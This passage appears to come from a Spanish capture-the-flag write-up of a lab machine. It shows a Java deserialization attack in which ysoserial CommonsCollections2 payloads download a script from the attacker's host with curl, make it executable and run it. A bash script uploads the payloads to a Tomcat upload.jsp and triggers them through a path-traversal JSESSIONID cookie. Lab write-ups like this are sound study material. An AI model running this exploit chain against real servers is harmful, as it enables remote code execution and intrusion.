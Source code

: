 ```bash
#Lo subimos a la maquina y lo guardamos en la ruta /tmp/ejeje.sh
–» java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections2 'curl http://10.10.14.152:8000/ejeje.sh -o /tmp/ejeje.sh' > downloadPayload.session
#Le damos permisos totales
–» java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections2 'chmod 777 /tmp/ejeje.sh' > chmodPayload.session
#Ejecutamos
–» java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections2 'bash /tmp/ejeje.sh' > executePayload.session
```

```bash
–» ls
chmodPayload.session  downloadPayload.session  ejeje.sh  executePayload.session  ysoserial-master-6eca5bc740-1.jar
```

El creador del post crea un script para hacer las peticiones, vamos a copiarnos pero cambiando algunas cositas:

```bash
–» cat todotaskbro.sh 
#!/bin/bash

email="hola@hola.com"
route_upload="../../opt/tomcat/temp
#route_upload="../../../opt/samples/uploads"

echo -e "\n\n+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++ download +++++++++++++++++++++++++++++++++\n\n"

curl -X POST http://10.10.10.205:8080/upload.jsp?email=$email -H "Cookie:JSESSIONID=$route_upload/downloadPayload" -F 'image=@downloadPayload.session'
curl -X POST http://10.10.10.205:8080/upload.jsp?email=$email -H "Cookie:JSESSIONID=$route_upload/downloadPayload"
sleep 1

echo -e "\n\n+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++ chmod +++++++++++++++++++++++++++++++++\n\n"

curl -X POST http://10.10.10.205:8080/upload.jsp?email=$email -H "Cookie:JSESSIONID=$route_upload/chmodPayload" -F 'image=@chmodPayload.session'
curl -X POST http://10.10.10.205:8080/upload.jsp?email=$email -H "Cookie:JSESSIONID=$route_upload/chmodPayload"
sleep 1

echo -e "\n\n+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++ execute ++++++++++++++++++++++++++++++++++\n\n"

curl -X POST http://10.10.10.205:8080/upload.jsp?email=$email -H "Cookie:JSESSIONID=$route_upload/executePayload" -F 'image=@executePayload.session'
curl -X POST http://10.10.10.205:8080/upload.jsp?email=$email -H "Cookie:JSESSIONID=$route_upload/executePayload"
```
